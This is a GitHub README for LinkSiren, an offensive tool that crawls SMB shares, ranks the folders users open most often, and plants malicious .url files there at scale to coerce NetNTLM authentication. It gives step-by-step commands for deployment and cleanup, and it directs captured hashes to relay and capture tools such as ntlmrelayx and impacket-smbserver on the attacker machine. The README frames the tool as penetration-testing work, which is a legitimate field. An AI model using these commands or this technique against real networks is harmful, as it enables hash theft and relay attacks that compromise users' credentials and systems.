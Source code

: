 # LinkSiren

## What is this tool?
_The Siren waits thee, singing song for song._ - Walter Savage Landor

LinkSiren distributes .url files to accessible file shares to coerce NetNTLM authentication from hosts that open them, like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but with prioritized locations and scalable deployment and cleanup.

## How do I use this NOW?
```bash
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# Capture hashes
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How do I use this the \~right\~ way?
```bash
# Get the project
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum 
# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
#    Note: Specify '.' as the domain to log in using a local user account
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# 4. Let the hashes come to you and relay them as you see fit :)
#    Use CrackMapExec and LdapRelayScan for relay target identification
#    Use Impacket's ntlmrelayx for relay or smbserver + pcredz for capture on the attacker machine
#    Ex. impacket-smbserver . . -smb2support
# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
#    Note: If you set a custom payload name (--payload) when deploying, you must set the same name here
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How is this better than the other tools?
Other tools are built to place a single malicious .url file at a specified location and clean up that one malicious .url file. If you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user sometime soon. Then it uses this information to target malicious .url file distribution to multiple locations at once. Additionally, LinkSiren records the full UNC path of every .url file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of .url files
- Targeted .url placement
- Single command cleanup
- Cross platform with python
  
## How will you make it even better?
I'm looking to add the following features:
- [ ] Start the WebClient service on targets using searchConnector-ms and library-ms files (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service) and [Farmer Source Code](https://github.com/mdsecactivebreach/Farmer/blob/main/crop/Crop/Crop.cs))
- [ ] Coerce HTTP authentication with WebDAV connection strings (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse))
- [ ] Support additional file types: SCF and LNK (per [MITRE](https://attack.mitre.org/techniques/T1187/))
- [ ] Multithreading/Multiprocessing for faster share crawling
- [ ] Add a progress bar for share crawling
- [ ] Enable authentication using a NTLM hash
- [ ] Enable ticket based authnentication (Kerberos)

## Note
This tools is designed for ethical hacking and penetration testing. It should be used exclusively on networks where explicit, written permission has been granted for testing. I accept no responsibility for the safety or effectiveness of this tool. Please don't sue me.
